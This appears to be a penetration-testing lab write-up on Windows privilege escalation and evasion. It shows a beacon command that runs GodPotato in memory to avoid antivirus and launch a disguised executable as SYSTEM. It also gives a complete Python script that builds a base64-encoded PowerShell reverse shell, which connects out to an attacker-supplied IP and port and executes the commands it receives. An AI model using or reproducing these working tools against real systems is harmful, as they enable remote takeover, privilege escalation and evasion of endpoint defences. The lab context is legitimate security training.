 We already create before exe file which is great and can bypass AV/EDR so rn we can run with Godpotato.exe while not put on disk and get shell as system. I will show my 2 way which is great btw.

### First Path

[godpotato.](https://github.com/BeichenDream/GodPotato) u already know how to compile it we did before while create a beacon.

    [11/27 11:54:09] beacon> execute-assembly /home/elliot/Documents/cybernetics/godpotato.exe -cmd C:\Windows\Tasks\OneDriveUptader.exe

![img-description](/assets/images/WhatsApp Image 2024-11-27 at 19.57.12.jpeg)

In this example, I executed GodPotato.exe without writing it to disk, maintaining a fileless execution approach to avoid detection by endpoint protection solutions. Using the execute-assembly command, I directly loaded the .NET assembly of GodPotato.exe into memory from my Beacon, bypassing the need to store the executable on the target system.

This technique leverages in-memory execution to minimise the footprint on the target, making it significantly harder for traditional antivirus or endpoint detection systems to detect and block the operation. The command also includes a -cmd argument to specify the payload to be executed—in this case, a task named OneDriveUpdater.exe located at C:\Windows\Tasks. This method exemplifies the power of fileless attacks in modern penetration testing scenarios, ensuring both stealth and efficiency.

### Second Path
payload.py

    #!/usr/bin/env python
    import base64
    import sys

    if len(sys.argv) < 3:
    print('usage : %s ip port' % sys.argv[0])
    sys.exit(0)

    payload="""
    $c = New-Object System.Net.Sockets.TCPClient('%s',%s);
    $s = $c.GetStream();[byte[]]$b = 0..65535|%%{0};
    while(($i = $s.Read($b, 0, $b.Length)) -ne 0){
        $d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);
        $sb = (iex $d 2>&1 | Out-String );
        $sb = ([text.encoding]::ASCII).GetBytes($sb + 'ps> ');
        $s.Write($sb,0,$sb.Length);
        $s.Flush()
    };
    $c.Close()
    """ % (sys.argv[1], sys.argv[2])

    byte = payload.encode('utf-16-le')
    b64 = base64.b64encode(byte)
    print("powershell -exec bypass -enc %s" % b64.decode())

here is it our payload.py and we can create out runme.bat lets try with this to get shell.

amsi_rmouse.txt
